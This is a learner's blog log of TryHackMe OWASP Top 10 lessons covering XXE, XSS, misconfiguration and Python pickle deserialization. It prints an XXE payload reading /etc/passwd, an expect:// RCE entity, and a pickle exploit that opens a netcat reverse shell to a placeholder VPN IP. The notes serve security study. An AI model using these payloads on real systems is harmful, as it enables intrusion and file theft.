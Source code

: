 ```yaml
---
title: 'TryHackMe: Complete Beginner'
date: 2021-10-06 12:00:00.000000000 Z
layout: post-external
original_link: https://cardboard-iguana.com/log/2021-10-06-tryhackme-complete-beginner.html
author: 100007
---
```


# TryHackMe: Complete Beginner

**author:** Nathan Acks  
**date:** 2021-10-06

# OWASP Top 10

## (Severity 04) XML External Entity

As with injection attacks, XML external entity (XXE) attacks are broken down into two types: in-band (analogous us to active injection attacks) and out-of-band (OOB-XXE or “blind” XXE, which are of course analogous to blind injection attacks).

The encoding/version bit of an XML document is called the “prolog”.

```
<?xml version="1.0" encoding="UTF-8"?>
```

Also, there is one and only one root element in an XML document. And XML is case-sensitive. Whee!

DTDs look very XML-like themselves. Using the actual example from TryHackMe, this DTD:

```
<!DOCTYPE note [
<!ELEMENT note (to, from, heading, body)>
<!ELEMENT to (#PCDATA)>
<!ELEMENT from (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMENT body (#PCDATA)>
]>
```

Defines this XML:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note SYSTEM "note.dtd">
<note>
<to>foo</to>
<from>bar</from>
<heading>baz</heading>
<body>etc.</body>
</note>
```

(`#PCDATA` indicates “parsable character data” - an XML-encoded string.)

There are three basic important XML bits here:

- `!DOCTYPE` defines the document type _and_ the root element.
- `!ELEMENT` defines additional elements (so if I understand this correctly, a !DOCTYPE declaration must contain at least one !ELEMENT with the same name).
- `!ENTITY` defines entities like `&gt;` - basically shortcuts for other data. There seems to be a lot more to XML entities than just this though…

The SYSTEM keyword can be included in !ENTITY declarations (or in the XML document !DOCTYPE declaration), and means “read this from the current system”.

Basically, you can think of the bit between the brackets (`[]`) in the DTD as getting slotted into the URI specifying the DTD in the XML !DOCTYPE. In fact, we can insert additional document type definitions into the end of a !DOCTYPE statement in this way; combining this with the SYSTEM declaration can allow us to read any files the webserver has access to.

```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM "file:///etc/passwd">]>
<root>&read;</root>
```

This basically strikes me as more-or-less the same thing as an injection attack, just that we’re targeting the XML parser rather than the website code.

RCE through XEE is apparently rare, but can be achieved via the PHP expect module.

```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY xxerce SYSTEM "expect://id">]>
<root>&xxerce;</root>
```

It looks like this is something that would be more commonly attacked over an API than directly through a web front-end.

- [2021-10-05 - TryHackMe: Complete Beginner](https://cardboard-iguana.com/log/2021-10-05-tryhackme-complete-beginner.html)
- [ENTITY Declaration](https://xmlwriter.net/xml_guide/entity_declaration.shtml)
- [Exploitation: XML External Entity (XXE) Injection](https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection)

## (Severity 06) Security Misconfiguration

Basically, this about the use of defaults or bad configurations of existing security controls, whereas “broken access control” (which didn’t really include anything worth noting explicitly) is about missing or non-functional controls.

## (Severity 07) Cross-Site Scripting

Three varieties:

- Stored XSS (saved to the website database)
- Reflected XSS (included in the user request, for example via a malicious link)
- [DOM-Based XSS](https://owasp.org/www-community/Types_of_Cross-Site_Scripting#DOM_Based_XSS_.28AKA_Type-0.29) (a little unclear what this is, but it looks like it’s basically similar to a reflection attack except that everything happens client-side)

[XSS-Payloads is a library of potentially useful XSS tools.](http://www.xss-payloads.com/)

Mostly, this is about injecting `<script/>` tags.

## (Severity 08) Insecure Deserialization

Basically, this is about trusting user-provided input to determine state.

On the low end, this can be something like using a cookie to determine user privileges.

But on the high end, if the application is actually _executing_ data provided by the user _as code_.

So what’s the difference between this and injection? (As far as I can tell) In command injection we’re abusing an existing function to get the web application to run a command (system, SQL, whatever) for us, while insecure deserialization is specifically about manipulating the internal state of the application (which can include the before-mentioned data-as-code trick).

Where the name of this vulnerability starts to make more sense is when the application is encoding (serializing) objects or other data structures, storing them on the user side, and then decoding (deserializing) the structure at a later time and using / trusting it without further checks.

In the TryHackMe example we’re attacking the Python pickle.loads() operation, which reconstructs objects from an encoded data stream. When an object is reconstructed it is actually fully initialized, which means that things like `object. __reduce__ ()` are run.

[This post is much clearer than TryHackMe when it comes to explaining how we’re attacking pickle.loads().](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)

Anyways, the TryHackMe room has us use the following code to create a malicious base64 encoded object to feed pickle.loads() (YOUR\_TRYHACKME\_VPN\_IP gets replaced by your VPN IP):

```
#!/usr/bin/env python

import pickle
import sys
import base64
command = 'rm /tmp/f; '
command += 'mkfifo /tmp/f; '
command += 'cat /tmp/f | '
command += '/bin/sh -i 2>&1 | '
command += 'netcat YOUR_TRYHACKME_VPN_IP 4444 > /tmp/f'
class rce(object):
def __reduce__ (self):
import os
return (os.system,(command,))
print(base64.b64encode(pickle.dumps(rce())))
```

What’s getting encoded here is the `rce` class. Python will call `rce. __reduce__ ()` to determine how to initialize this class when pickle.loads() deserializes it, and ` __reduce__ ()` wil return the tuple `(os.system, (command,))`, where `command` is basically our standard Metasploit reverse shell. Python then initializes the class by using os.system to call `command`, and there’s our reverse shell!

(SIDE NOTE: Isn’t `nc` a more common name for `netcat`? Debian provides links to both in /etc/aleternatives, but it seems best not to assume we’re on a Debian system…)

- [pickle - Python object serialization](https://docs.python.org/3/library/pickle.html)
